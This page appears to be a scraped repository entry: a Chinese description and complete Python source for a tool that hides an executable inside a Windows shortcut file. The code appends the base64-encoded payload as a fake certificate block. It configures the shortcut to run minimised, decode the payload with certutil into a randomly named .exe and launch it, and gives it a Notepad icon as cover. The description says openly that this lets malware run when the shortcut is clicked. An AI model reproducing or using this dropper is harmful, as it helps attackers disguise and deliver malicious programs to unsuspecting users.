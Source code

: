 # 隱藏捷徑檔案
## 描述
這個 Python 腳本可以用來建立一個包含嵌入檔案的 Windows 捷徑。這個腳本需要兩個參數：要嵌入的檔案和生成的捷徑名稱。
腳本首先使用 winshell 模組創建一個 Windows 捷徑。這個捷徑被配置為執行一個命令，該命令會解碼嵌入的檔案並執行它。
接著，腳本使用 base64 模組對要嵌入的檔案進行編碼，並將編碼後的數據以證書的形式附加到捷徑檔案中。
最後，腳本會在螢幕上顯示生成的捷徑名稱。當捷徑被點擊時，嵌入的檔案會被提取並執行，從而允許惡意軟體在系統上運行。
## Code
    #!/usr/bin/env python3
    
    # Requirements:
    # -> pip install pypiwin32
    # -> pip install winshell

    import argparse
    import base64
    import os
    import pathlib
    import random
    import string
    
    import winshell
    
    
    def build_shortcut(file_to_embed, shortcut_name):
        output_shortcut = "{}{}.lnk".format(
            os.path.join(pathlib.Path(__file__).parent.resolve(), ''),
            shortcut_name,
        )    
    
        with winshell.shortcut(output_shortcut) as shortcut:    
            # @echo off & (for %i in (.lnk) do certutil -decode %i [filename]) & start [filename].exe
            payload = "@echo off&(for %i in (*.lnk) do certutil -decode %i {0}.exe)&start {0}.exe".format(
                "".join(random.choice(string.ascii_letters) for i in range(8))
            )                
    
            shortcut.description = ""
            shortcut.show_cmd = "min"
            shortcut.working_directory = ""
            shortcut.path = "%COMSPEC%"
    
            shortcut.arguments = "/c \"{}".format(
                payload,
            )
    
            shortcut.icon_location = ("%windir%\\notepad.exe", 0)
    
        with open(file_to_embed, "rb") as file:
            encoded_content = base64.b64encode(file.read())
    
        with open(output_shortcut, "ab") as file:
            file.write(b"-----BEGIN CERTIFICATE-----")
            file.write(encoded_content)
            file.write(b"-----END CERTIFICATE-----")
    
        print("[+] Shortcut generated: \"{}\"".format(output_shortcut))
    
    if __name__ == "__main__":
        parser = argparse.ArgumentParser(description=f"Create Windows Shortcut with Self-Extracting Embedded File.")
    
        parser.add_argument('-f', '--embed-file', type=str, dest="embed_file", required=True, help="File to inject in shortcut.")
    
        parser.add_argument('-n', '--shorcut-name', type=str, dest="shortcut_name", required=True, help="Generated shortcut name.")
    
        try:
            argv = parser.parse_args()      
        except IOError as e:
            parser.error() 
    
        build_shortcut(argv.embed_file, argv.shortcut_name)
    
        print("[+] Done.")
